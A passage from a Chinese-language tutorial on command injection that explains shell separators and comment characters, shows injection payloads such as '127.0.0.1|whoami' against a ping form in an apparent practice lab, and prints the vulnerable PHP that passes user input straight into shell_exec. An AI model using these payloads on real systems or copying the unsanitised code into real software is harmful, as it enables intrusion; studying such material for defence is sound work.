 ```````
```
#dir || whoami
```
`&`前面和后面命令都要执行，无论前面真假 
```
#dir & whoami
```
`&&` 如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令 
```
#dir && whoami
```
## 注释符号
与代码注释一样，合理利用的时候，命令执行能够使命令后面的其他字符成为注释内容，以达到我们想要的效果。
windows 的注释符号为 "::", 在BAT 批处理脚本中用的较多；
linux 的注释符号为 "#" ，在 bash 脚本中用的比较多。
## 实战
### ping
可以看到当我们输入一个IP地址就可以触发一个 ping IP 地址 的操作，所以我们是不是可以利用前面的注入方式来执行命令
![image-20240228162700447](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228162700447.png)
使用如下命令

```shell
127.0.0.1&whoami
```
![image-20240228162706407](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228162706407.png)
但是可以发现有的在cmd终端执行就可以，但是用burp重放的时候就没有效果： ping 127.0.0.1 & whoami
因为在数据包中的结果就会变成 ipaddress=127.0.0.1&whoami&submit=ping ，可以看到这个&whoami 就会被解析成一个参数，所以导致这个payload失效了。所以在能够执行的命令的payload中不能使用&字符，但是如果使用浏览器直接输入会怎么样呢？可以看到被正常执行了
![image-20240228162711844](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228162711844.png)
尝试如下的代码

```shell
ipaddress=127.0.0.1|whoami&submit=ping
ipaddress=11||whoami&submit=ping
ipaddress=127.0.0.1|ipconfig &submit=ping
```
![image-20240228162721285](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228162721285.png)
![image-20240228162728516](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228162728516.png)
`ipconfig`是windows的cmd下的命令，Linux下可以使用`ifconfig`进行查看，如果`ifconfig`未安装：`apt -y install net-tools`
![image-20240228162733488](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228162733488.png)

#### 源码分析
```php
<?php 
$result='';

if(isset($_POST['submit']) && $_POST['ipaddress']!=null){
    $ip=$_POST['ipaddress'];
//     $check=explode('.', $ip);可以先拆分，然后校验数字以范围，第一位和第四位1-255，中间两位0-255
    if(stristr(php_uname('s'), 'windows')){
//         var_dump(php_uname('s'));
        $result.=shell_exec('ping '.$ip);//直接将变量拼接进来，没做处理
    }else {
        $result.=shell_exec('ping -c 4 '.$ip);
    }

}
?>
```
```````